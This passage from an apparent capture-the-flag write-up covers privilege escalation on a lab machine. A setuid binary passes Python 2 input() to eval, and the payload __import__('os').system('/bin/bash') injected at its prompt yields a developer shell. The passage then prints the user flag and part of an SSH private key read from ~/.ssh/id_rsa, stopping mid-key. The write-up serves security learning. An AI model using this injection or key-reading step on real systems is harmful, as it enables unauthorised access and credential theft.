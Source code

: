 Full script is found [HERE](/assets/scripts/updown_rce.py).


### Step 3
With a shell, the privilege escalation vector is quite obvious, we have **SUID** bit as `developer` on `siteisup` binary:
```bash
www-data@updown:/home/developer/dev$ ls -al
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22 15:45 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22 15:45 siteisup_test.py

www-data@updown:/home/developer/dev$ file siteisup
siteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not stripped
```

We can assume that the code from `siteisup` is the same as the python script:
```bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

`import()` is generally seen as a dangerous function, together with `eval()` and `exec()`, we can easily break out from the program and get a shell as `developer`:
```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash')
developer@updown:/home/developer/dev$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)

developer@updown:/home/developer$ cat user.txt
107ab9b44d8853f426ebe841cdae9cbf

developer@updown:/home/developer/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
```